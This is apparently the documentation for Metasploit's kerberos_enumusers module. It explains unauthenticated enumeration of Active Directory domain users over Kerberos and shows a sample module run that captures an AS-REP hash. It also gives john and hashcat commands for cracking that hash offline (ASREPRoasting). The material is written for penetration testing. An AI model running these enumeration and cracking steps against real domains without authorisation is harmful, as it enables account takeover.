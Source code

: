 ## Vulnerable Application

The kerberos_enumusers module is used to enumerate valid Domain Users
via Kerberos from a wholly unauthenticated perspective. It utilises the
different responses returned by the service to identify users that exist
within the target domain. It is also able to identify whether user
accounts are enabled or disabled/locked out.

## Verification Steps

Verify the scenarios work as expected

## Target

To use kerberos_enumusers, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts.

Create a new `./users.txt` file, then run the module:

```
msf6 auxiliary(gather/kerberos_enumusers) > run rhost=192.168.123.228 domain=domain.local user_file=./users.txt verbose=true
[*] Running module against 192.168.123.228

[*] Using domain: ADF3.LOCAL - 192.168.123.228:88...
[*] 192.168.123.228:88 - User: "missing123" user not found
[+] 192.168.123.228:88 - User: "administrator" is present
[+] 192.168.123.228:88 - User: "account with spaces" is present
[-] 192.168.123.228:88 - User: "locked_account" account disabled or locked out
[+] 192.168.123.228:88 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DOMAIN.LOCAL:bdb54b9e...etc..etc...
[+] 192.168.123.228:88 - User: "fake_mysql" is present
[*] 192.168.123.228:88 - User: "missing1234" user not found
[*] Auxiliary module execution completed
msf6 auxiliary(gather/kerberos_enumusers) > 
```

### ASREPRoast Cracking

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket present.
The technique of cracking this token offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously creds with:

```
creds -v
```

## Options

The `kerberos_enumusers` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

**The DOMAIN option**

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

**The USER_FILE option**

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The Timeout option**

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```
